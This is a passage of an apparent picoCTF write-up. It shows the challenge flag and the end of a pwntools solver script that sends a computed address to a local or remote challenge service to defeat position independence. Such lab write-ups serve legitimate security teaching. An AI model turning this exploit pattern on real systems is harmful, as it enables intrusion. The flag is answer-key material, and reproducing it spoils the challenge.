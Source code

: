 ```picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_6f4e723}```

    # Send target as hex string (program expects something like 0x12345)
    proc.sendline(hex(target))

    try:
        out = proc.recvall(timeout=6)
        if out:
            print("=== Service output ===")
            print(out.decode(errors='ignore'))
        else:
            proc.interactive()
    except Exception as e:
        log.warn("Exception while receiving final output: %s", e)
        try:
            proc.interactive()
        except Exception:
            pass

    return True

def try_remote(attempts=3):
    for i in range(attempts):
        try:
            log.info(f"Connecting to {HOST}:{PORT} (attempt {i+1}/{attempts})")
            return remote(HOST, PORT, timeout=8)
        except Exception as e:
            log.warn("Connect failed: %s", e)
            time.sleep(1.5)
    return None

def main():
    if USE_LOCAL:
        p = process(EXE)
        interact_with(p)
        p.close()
        return

    p = try_remote()
    if p:
        interact_with(p)
        p.close()
        return

    print("[!] Could not connect to remote. Try checking network or use local testing.")

if __name__ == '__main__':
    main()

```

![Step 3](images/3.png)